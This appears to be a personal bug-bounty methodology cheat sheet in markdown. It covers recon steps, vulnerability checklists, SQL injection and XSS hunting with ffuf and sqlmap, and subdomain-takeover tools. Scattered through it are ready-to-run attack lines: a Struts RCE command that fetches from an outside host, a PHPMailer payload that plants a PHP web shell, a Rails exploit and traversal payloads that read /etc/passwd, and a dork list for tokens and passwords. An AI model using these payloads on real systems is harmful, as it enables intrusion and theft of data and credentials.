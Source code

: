 #					My Bug-Bounty Recon Process

### Recon Process in two part 

    1-Automation
    2-Manual
    3-After Recon: Exploit

**1- Start Automation in background, while automating time you can manually check all features of web and check every thing, Don't forget to analyse `source code`**

	1 Gather Subdomain
	2 Gather URLs,GF-Pattern
	3 Gather JS File
	4 Gather IP,Port
	5 Google/Github Dorking

### 2- Let's check mannually all vulnerability types.

<details><summary>Bug</summary>
<p>

#### We can hide anything, even code!
	- Blind XSS
		- Blind XSS payload in User-Agent header
		- BXSS Payload while logging (Enter the BXSS Payload in forgot pass, login, singup to generate errors)
		- Use BXSS Pyload as your password
	- Add Header in the Match an Replace Proxy- Add X-Forwarded-Host: evil.com - browse the program and then click burp search and try to find your X-Forwarded-Host: Value for web chache deception,poisoning.

	- HTTP Request Sumggling > Ihave give this ariticle and tool in my telegram.
	- Apply on .html to xhtml
	- python struts-pwn.py -u http://site.com/orders.xhtml -c "wget http://ip:1337/test" --exploit
	- Test For Electronic code book (AAAAAAA aaaaaa BBBBBB)
	- CVE-2016-10033: PHPMailer RCE
		- email: "attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php root"127.0.0.1
		- subject: <?php system($_GET['cmd']);?>

	- Change all the request to TRACE method to disclose or access info.
	- Check For broken link - tool: blc https://comany.com -ro 

	- companyname.atlassian.net
	- jira.companyname.com
	- VHOST Testing
	- Test For buckets
	- Check Github & dork list
		(api,token,username,password,secret,dev,prod,jenkins,config,ssh,ftp,MYSQL_PASSWORD,admin,AWS,bucket,GITHUB_TOKEN)
	- gau or gauplus site.com
	- waybackurl site.com
	- Accessing misconfigured data of an org: https://storage.googleapis.com/<org-name>
	- Unautorized access to org's google groups: https://groups.google.com/a/<org-name>
	- if running ruby on rails then: Accept: ../../../../../../../../../etc/passwd{{
	- CVE-2013-0156: Rails Object injection: ruby rails_rce.rb http://site.com 'cp /etc/passwd public/file.txt'
		(raw- https://gist.github.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
		(https://gist.github.com/postmodern/4499206)
	- CVE-2013-0156 Hint: PHP based website on NGINX phpip-fpizdam http://site.com/anyphpfile.php
	- Check FOr crlf injection
	- Bypass Open redirection protection
	- keyfinder
	- Google Dork
	> check email verfication admin@site.com
	> site.com/home/....4....json [will disclose all the content of the home dir | sensitive info]
	- CVE-2019-19781 Ciritix NetScaler Directory Traversal: curl -vk -path-as-is https://$target/vpn/../vpns/ 2>&1 | grep "You don't have permission to access /vpns/" >/dev/null && echo "Vulnerable $Target" || echo "MITIGATED: $TARGET"



</p>
</details>

## Specific Buf List:
	
- [ ] Authentication
- [ ] OAuth authentication
- [ ] SQL injection

<details><summary>SQL injection check list:</summary>
<p>
- Use GF to grep all possible sqli parameter
- Use SQLi [Destector](https://github.com/eslam3kl/SQLiDetector?s=09)
- Use User-Agent fuzzer for [sqli](https://github.com/root-tanishq/userefuzz)
- Use Error base sqli template nuclei.
- Blind SQLi and Time Base SQLi [too](https://github.com/JohnTroony/Blisqy?s=09)

### Find SQL injection with ffuf:
  Wayback and grep all php files,
  ```waybackurls https://redacted.org/ | uro | grep “.php” > php-files.txt```
  OK let’s do some bash to grep the names after get to make a list of parameters to brute force in the endpoints.
 
**Getting Parameters**
 ```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | sort -u```
remove the .php string to make a list - ```cut -f1 -d”.”```
```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | cut -f1 -d”.” | sort -u```
```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | cut -f1 -d”.” | sed 's/[A-Z]\+/\n&/g' | sort -u | tee uppercase-param.txt```
```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | cut -f1 -d”.” | sed 's/[A-Z]\+/\n&/g' | sort -u | tr '[:upper:]' '[:lower:]' > lowercase-param.txt

so now we have two lists of parameters let’s test it with FFUF, firstly I’ll grep endpoint and test all params with it, I’ll try the lowercase-parameters first with this command:
```ffuf -w lowercase-parameters.txt -u "https://redacted.org/searchProgressCommitment.php?FUZZ=5"```
If you don't get anything: Try with POST request
```ffuf -w lowercase-parameters.txt -X POST -d "FUZZ=5" -u "https://redacted.org/searchProgressCommitment.php"```
Ok now go to the endpoint and intercept the request with burp and change the request method, add the parameter, and copy it to a txt file to run sqlmap on it.

SQL:Command:
```sqlmap -r req3.txt -p commitment --force-ssl --level 5 --risk 3 --dbms=”MYSQL” --hostname --current-user --current-db --dbs --tamper=between --no-cast```
	
</p></details>

- [ ] XSS
<details><summary>XSS Check list and TIPs</summary>
<p>
	
  -  Stored XSS	
  -  Reflect XSS 	
  -  DOM XSS 	
  -  Blind XSS 	
  -  Header injection 	
  -  XSS in cookie body, Local Storage	
  -  Proto type pollution 	
  -  HTMLi
	
### XSS hunting with ffuf
```ffuf -w /usr/share/wordlists/dirb/big.txt -u https://rob-sec-1.com/FUZZ -o Ffuf/Recruitment.csv -X HEAD -of csv```
	
What this tool will do is try to enumerate different directories within the application,replacing FUZZ with items from the big.txt list of words. If we sneak peek a sample of this file:
	
Running the above generated the following CSV that we can read from the Linux terminal using the ```column``` command:
```column -s, -t Ffuf/Recruitment.csv```

[Refrence](https://markitzeroday.com/xss/hidden/reflected/content-discovery/bug-bounty/2020/03/03/xss-hunting.html)

</p>
</details>

- [ ] CSRF
- [ ] IDOR
- [ ] Clickjacking
- [ ] DOM-based
- [ ] vCORS
- [ ] XXE
- [ ] SSRF

       - Try SSRF in Referer header : Shellshock Exploitation 
       - Test with match and replace in burp 
       - Read SSRF Checklist 
- [ ] Request smuggling
- [ ] Command injection
- [ ] Server-side template injection
       - [Try This Tool](https://github.com/faiyazahmad07/SSTI_DETECTOR)
       
- [ ] Insecure deserialization
- [ ] Directory traversal
- [ ] Access control
- [ ] Business logic vulnerabilities
- [ ] Web cache poisoning
- [ ] HTTP Host header attacks
- [ ] WebSockets
- [ ] Information disclosure
- [ ] File upload vulnerabilities
- [ ] JWT attacks





### Subdomain Takeover: 
- *Try a tool name subzy*
- *Try this subjack*
	subjack -w subdomain.txt -t 20 -timeout 30 -o subjack1.txt -ssl -a -c "/root/fingerprints.json"
	subzy -targets host.txt --hide_fails --concurrency 100
	
- Try [DNS-Reaper](https://www.kitploit.com/2022/08/dnsreaper-subdomain-takeover-tool-for.html?m=1) 
